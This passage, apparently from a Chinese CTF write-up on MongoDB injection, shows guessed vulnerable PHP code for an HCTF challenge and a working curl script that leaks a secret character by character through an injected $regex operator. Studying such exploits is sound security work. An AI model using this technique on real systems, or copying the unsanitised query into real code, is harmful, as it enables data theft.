 直接便利出所有集合中的数据。

如果此时的用户名与密码不能回显，只是返回一个逻辑上的正误判断。

那么我们可以采用$regex 操作符来一位一位获取数据。

案例演示：http://121.40.86.166:23339/

这是 hctf 中的一道题目。

猜测其 php 代码大概如下

```
<?php
$mongo = new mongoclient();
$db = $mongo->myinfo; //选择数据库
$coll = $db->test; //选择集合
$lock = $_POST['lock'];
$key = $_POST['key'];
if (is_array($lock)) {
    $data = array(
        'lock'=>$lock);
    $data = $coll->find($data);
    if ($data->count()>0) {
        echo 'the lock is right,but wrong key';
    }else{
        echo 'lock is wrong';
    }
}else{
    if ($lock == 'aabbccdd'&&$key=='aabbccdd') {
        echo 'Your flag is xxxxxxx';
    }else{
        echo 'lock is wrong';
    }
}
?>

```

这样的话，因为只有“正确”或者“错误”两种回显，我们只能通过正则判断来一位一位读取 lock 的内容了。

对于该题的利用 payload 如下：

```
<?php 
$ch=curl_init();
curl_setopt($ch,CURLOPT_URL,'http://121.40.86.166:23339/');
curl_setopt($ch,CURLOPT_RETURNTRANSFER,1);
curl_setopt($ch,CURLOPT_POST,1);
$ori = '0123456789abcdefghijklmnopqrstuvwxyz';
$str = '';
for ($i=0; $i <10 ; $i++) {
    for ($j=0; $j <strlen($ori) ; $j++) { 
        $post = 'key=1&lock[$regex]=^'.$str.$ori[$j];
        curl_setopt($ch,CURLOPT_POSTFIELDS,$post);
        $data=curl_exec($ch);
        if (strlen($data) == 319) {
           $str.=$ori[$j];
           echo $str."\r\n";
           break;
        }
    }
}
?>

```
